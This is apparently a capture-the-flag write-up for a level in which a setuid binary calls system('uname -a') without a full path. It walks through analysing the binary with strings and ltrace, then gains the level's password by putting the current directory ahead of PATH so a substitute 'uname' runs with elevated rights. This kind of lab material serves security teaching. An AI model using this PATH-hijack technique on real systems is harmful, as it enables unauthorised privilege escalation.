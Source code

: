 # Level 2

`level2` is a `setuid` binary.

```shell
> ls -l $(which level2) && file $(which level2)
```

```
-rwsr-sr-x 1 level2 users 15904 Oct 6 17:58 level2
level2: setuid, setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
 dynamically linked (uses shared libs), for GNU/Linux 2.6.32,
 BuildID[sha1]=d2eb4ad9b52658d2f65b51b670ebd8c5f45347b1, not stripped
```

---

Running the binary gives us output that looks suspiciously like `uname`

```shell
> level2
```

```
System info: Linux ctf.geekcamp.sg 3.16.4-1-ARCH #1 SMP PREEMPT Mon Oct 6 08:22:27 CEST 2014 x86_64 GNU/Linux
```

---

Running `strings -a` on the binary reveals that it does indeed have a string with `uname -a` in it.

```shell
> strings -a $(which level2)
```

```
/lib64/ld-linux-x86-64.so.2
libc.so.6
fflush
printf
stdout
system
__libc_start_main
__gmon_start__
GLIBC_2.2.5
fffff.
AWAVA
AUATL
[]A\A]A^A_
System info: 
uname -a
.
.
.
```

---

Further analysis reveals that the binary runs `system("uname -a")`, relying on `$PATH` to find the uname binary.

```shell
> ltrace level2
```

```
__libc_start_main(0x4004e0, 1, 0x7fff46fdfd58, 0x400610 <unfinished ...>
printf("System info: ")                                                 = 13
fflush(0x7ff9aef32800System info: )                                                  = 0
system("uname -a"Linux ctf.geekcamp.sg 3.16.4-1-ARCH #1 SMP PREEMPT Mon Oct 6 08:22:27 CEST 2014 x86_64 GNU/Linux
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                  = 0
+++ exited (status 0) +++
```

---

At this point, the exploit is trivial.

```shell
> export PATH=$PWD:$PATH; level2
```

```
System info: wunekahniisahnohpaiwoobahbaugeutaexaokal
```

\#win
